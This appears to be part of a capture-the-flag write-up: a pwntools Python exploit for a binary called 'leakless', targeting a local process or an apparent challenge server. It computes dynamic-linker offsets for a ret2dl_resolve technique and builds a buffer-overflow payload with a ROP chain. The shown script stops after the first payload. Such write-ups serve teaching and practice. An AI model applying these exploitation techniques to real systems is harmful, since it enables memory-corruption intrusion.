 Here's my exploit code:
```
# exploit-leakless.py

from pwn import *
from time import sleep


local=True
if local:
    p = process('./leakless')
    DELAY = 0.2
else:
    p = remote('35.243.188.20', 2002)
    DELAY = 1

### Calculating offsets ###########
#
rel_plt_base = 0x08048354
bss_base = 0x0804a030
dynsym_base = 0x080481cc
dynstr_base = 0x0804828c
# offset designed to satisfy the constraints for the r_info field
# described in the write-up
new_bss_base = bss_base + (0x0804ad4c - 0x0804a064)
#
exit_to_bss_base_offset = 0x14
target_reloc_addr = new_bss_base - 0x14
reloc_index = target_reloc_addr - rel_plt_base #/ 8 slide is somehow wrong
#got1_addr = 0x0804a004 # GOT[1]
call_runtime_resolve_addr = 0x80483b0 # push *0x0804a004, jmp 0x0804a008. This is also PLT0
log.info("reloc_index = " + hex(reloc_index))
#
sym_table_offset =  (new_bss_base + 0x4 - 0x080481cc)/16  # want this to be 0x0804ac40
#
log.info("sym_table_offset = " + hex(sym_table_offset))
target_rinfo = sym_table_offset * 256 + 7
log.info("r_info = " + hex(target_rinfo))
#
target_symbol_offset_from_dynstr_base = 0x804ada8 - dynstr_base # 0x25b0
log.info("target_symbol_offset_from_dynstr_base = " + hex(target_symbol_offset_from_dynstr_base))
#
###############################

### First payload #############
#
POP_EBP_ADDR = 0x0804869b
BSS_BUFFER_ADDR = 0x0804ad04
payload = 'A'*76
#
## ROP chain for first payload starts here
payload += p32(POP_EBP_ADDR) # pop ebp
#
# location chosen to get the version number right,
# buffer starts at 0x0804ad04 ([ebp-0x48])
payload += p32(BSS_BUFFER_ADDR+0x48)
#
# start of read in feedme function
payload += p32(0x080485df)
#
# start of feedme function (read second payload), so we read the second
# payload to BSS_BUFFER_ADDR - 0x48 right here. Then return control
# flow to BSS_BUFFER_ADDR.
payload += p32(0x080485cc)
```